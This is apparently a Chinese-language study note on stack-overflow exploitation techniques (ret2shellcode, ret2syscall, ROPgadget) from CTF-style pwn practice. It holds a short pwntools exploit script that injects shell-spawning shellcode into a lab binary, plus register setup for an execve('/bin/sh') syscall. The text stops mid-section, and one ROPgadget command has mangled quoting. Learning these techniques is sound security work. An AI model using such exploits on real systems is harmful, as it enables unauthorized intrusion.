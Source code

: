 ## ret2shellcode

个人感觉是必须有可读部分，且NX保护不能开。（开了还执行个der的shellcode

![image-20221025202358102](202210252023455.png)

    #!/usr/bin/env python
    from pwn import *

    sh = process('./ret2shellcode')
    shellcode = asm(shellcraft.sh())
    buf2_addr = 0x804a080

    sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
    sh.interactive()

## ret2syscall

思路大概是：使用`ROPgadget`寻找到含有修改寄存器并`ret`的寄存器操作。（要`ret`是因为需要执行多个这样的操作）。然后找到多个这样的操作来覆盖`return address`，通过这些修改寄存器的操作来进行`syscall`。

主要利用系统调用，系统调用这个操作主要由操作系统内核提供。

32位应用程序调用系统调用的过程：

*   系统调用编号置入EAX
*   函数参数存入其他通用寄存器
*   触发0x80中断(int 0x80)

注意，x86中系统调用的前五个参数分别为：

*   ebx
*   ecx
*   edx
*   esi
*   edi

若还有更多参数，则需要单独使用一个寄存器存放指向所有参数在用户空间地址的指针。

例如，实现`execve("/bin/sh")`操作，在32位系统下有如下特征：

*   系统调用号即eax为0xb（0xb对应要执行的系统调用，此处即execve）
*   第一个参数，即ebx指向/bin/sh的地址。为sh的地址也可以。
*   第二个参数、第三个参数，即ecx和edx为0。

64位略有不同：

*   系统调用编号存入rax
*   参数1存入rdi，参数2存入rsi，参数3存入rdx

## ROPgadgets操作

找`pop ebx`操作：

    ROPgadget --binary file --only 'pop'ret''grep 'ebx'

获得字符串对应地址操作：
